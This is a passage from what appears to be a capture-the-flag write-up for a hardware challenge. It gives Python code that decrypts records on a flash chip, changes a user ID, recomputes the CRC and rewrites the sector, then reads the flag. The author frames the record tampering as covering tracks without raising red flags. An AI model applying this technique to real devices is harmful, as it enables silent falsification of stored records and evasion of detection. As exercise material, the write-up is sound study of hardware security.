 This way we are maintaining data integrity and won't raise any red flags.

This was the essential function for our challenge as it allows us to cover out tracks, eliminate any trace, hehe.

```python
def modify_records(data, key):
    found_user_id = False
    for i in range(0, len(data), 16):    # 16 bytes each record
        record = data[i:i+12]  # Extract record excluding CRC (4 bytes is CRC)
        decrypted_record = bytearray(b ^ key[j % len(key)] for j, b in enumerate(record))
        user_id = struct.unpack("<H", decrypted_record[6:8])[0]
        # Check and modify User ID 0x5244
        if user_id == 0x5244:
            found_user_id = True
            print(f"Modifying record for User ID {user_id} at position {i}.")
            struct.pack_into("<H", decrypted_record, 6, 0x5299)  # Change user ID
            new_crc = binascii.crc32(decrypted_record) & 0xffffffff  # Recalculate CRC
            struct.pack_into("<I", data, i+12, new_crc)  # Update CRC in original data
            # Re-encrypt modified record
            for j, b in enumerate(decrypted_record):
                data[i+j] = b ^ key[j % len(key)]
    if not found_user_id:
        print("No records with User ID 0x5244 found, but proceeding with operations...")
    return data
```
And finally the `process_flash` function which is responsible for processind the modified records and writing them back to the flash chip.

Enable writing instruction is `06h` and erase sector is `20h`. Iterate over the modified records in 256 byte chunks and call the write_data for each.

```python
def process_flash(records):
    exchange([0x06])  # Enable writing
    exchange([0x20, 0, 0, 0])  # Erase sector
    print("Erasing sector and writing modified data back...")
    for i in range(0, len(records), 256):
        write_data(records[i:i+256], i)
```
Last function we will create is the `retrieve_flag()`. This functino is going to calculate the memory address where the flag is stored based on the given constant `FLAG_ADDRESS`. Iterating over the bytes of that address, reversing their order and shifting them to create the final address,then calling the `read_data` to read the flag data from the calculated address. 

Retrieved flag is parsed to remove trailing padding bytes (`0xFF`) and converted into human-readable format.

```python
def retrieve_flag():
    flag_addr = sum(byte << (8 * idx) for idx, byte in enumerate(reversed(FLAG_ADDRESS)))
    flag_data = read_data(50, flag_addr)
    print("Flag found:", flag_data.rstrip(b"\xff").decode())
```
